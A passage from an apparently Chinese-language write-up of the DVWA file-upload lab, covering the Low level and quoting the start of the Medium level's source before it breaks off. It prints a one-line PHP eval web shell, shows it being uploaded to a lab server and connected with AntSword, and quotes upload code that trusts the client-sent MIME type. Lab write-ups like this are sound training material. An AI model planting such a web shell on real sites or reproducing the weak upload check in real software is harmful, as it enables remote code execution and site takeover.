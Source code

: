 ```
定义和用法
move_uploaded_file（）函数把上传的文件移动到新位置。
如果成功该函数返回TRUE，如果失败则返回FALSE。

语法
move_uploaded_file(file,newloc)
file:必需。规定要移动的文件。
newloc:必需。规定文件的新位置。
```

通过查看源码可以看到并没有生什么过滤和限制。

**实战**<br />直接上传一个PHP木马文件，我命名为shell.php
```php
<?php @eval($_POST['XMTX']);?>
```
![image-20210413142130491.png](_img/assets/1655879137804-d2a0f751-aa26-48df-a1f6-86797ca15635.png)

上传成功，并返回给我们一部分路径
```
../../hackable/uploads/shell.php succesfully uploaded!
```

通过返回的文件路径和URL
```
http://192.168.33.10/vulnerabilities/upload/#
```

我们可以得到上传文件的路径
```
http://192.168.33.10/hackable/uploads/shell.php
```

使用蚁剑连接<br />![image-20210413143030477.png](_img/assets/1655879147019-70914080-a9d0-4aec-8483-ce16f6e7cae6.png)
成功


## 2、Medium
**查看源码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '
<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "
<pre>{$target_path} succesfully uploaded!</pre>";
```
